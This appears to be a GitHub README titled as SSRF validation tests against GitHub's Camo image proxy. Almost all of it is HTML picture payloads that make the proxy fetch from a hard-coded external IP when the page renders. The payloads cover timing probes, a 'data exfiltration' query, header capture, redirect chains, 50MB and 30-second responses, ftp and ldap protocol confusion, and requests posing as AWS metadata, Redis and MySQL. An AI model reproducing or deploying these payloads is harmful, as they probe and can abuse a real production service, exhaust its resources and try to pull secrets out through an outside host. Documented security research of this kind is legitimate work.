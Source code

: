 # 🔍 SSRF Validation Tests

Testing GitHub Camo proxy SSRF vulnerability.

## Basic SSRF Confirmation
<picture>
  <source srcset="https://oob.example.com/ssrf-test-1">
  <img src="fallback.jpg" alt="Test 1">
</picture>

## Timing Attack Test  
<picture>
  <source srcset="http://164.90.187.218:8080/ssrf-test-2-timing?delay=10">
  <img src="https://github.com/zebbern/github-secrets/blob/main/2.jpg" alt="Timing Test">
</picture>

## Data Exfiltration Test
<picture>
  <source srcset="http://164.90.187.218:8080/ssrf-test-3-data?data=github-internal-secret">
  <img src="https://github.com/zebbern/github-secrets/blob/main/2.jpg" alt="Data Test">
</picture>

## Header Analysis Test
<picture>
  <source srcset="http://164.90.187.218:8080/ssrf-test-4-headers">
  <img src="https://github.com/zebbern/github-secrets/blob/main/2.jpg" alt="Header Test">
</picture>

## Redirect Following Test
<picture>
  <source srcset="http://164.90.187.218:8080/ssrf-test-5-redirect?step=1">
  <img src="https://github.com/zebbern/github-secrets/blob/main/2.jpg" alt="Redirect Test">
</picture>

## Large Response Test (50MB)
<picture>
  <source srcset="http://164.90.187.218:8080/ssrf-test-6-large?size=50">
  <img src="https://github.com/zebbern/github-secrets/blob/main/2.jpg" alt="Large Test">
</picture>

## Slow Response Test (30s)
<picture>
  <source srcset="http://164.90.187.218:8080/ssrf-test-7-slow?duration=30">
  <img src="https://github.com/zebbern/github-secrets/blob/main/2.jpg" alt="Slow Test">
</picture>

## Protocol Confusion Tests
<picture>
  <source srcset="http://164.90.187.218:8080/ssrf-test-8-protocols?protocol=ftp">
  <img src="https://github.com/zebbern/github-secrets/blob/main/2.jpg" alt="FTP Test">
</picture>

<picture>
  <source srcset="http://164.90.187.218:8080/ssrf-test-8-protocols?protocol=ldap">
  <img src="https://github.com/zebbern/github-secrets/blob/main/2.jpg" alt="LDAP Test">
</picture>

## Internal Service Simulation
<picture>
  <source srcset="http://164.90.187.218:8080/simulate-internal?service=aws-metadata">
  <img src="https://github.com/zebbern/github-secrets/blob/main/2.jpg" alt="AWS Test">
</picture>

<picture>
  <source srcset="http://164.90.187.218:8080/simulate-internal?service=redis-info">
  <img src="https://github.com/zebbern/github-secrets/blob/main/2.jpg" alt="Redis Test">
</picture>

<picture>
  <source srcset="http://164.90.187.218:8080/simulate-internal?service=mysql-status">
  <img src="https://github.com/zebbern/github-secrets/blob/main/2.jpg" alt="MySQL Test">
</picture>
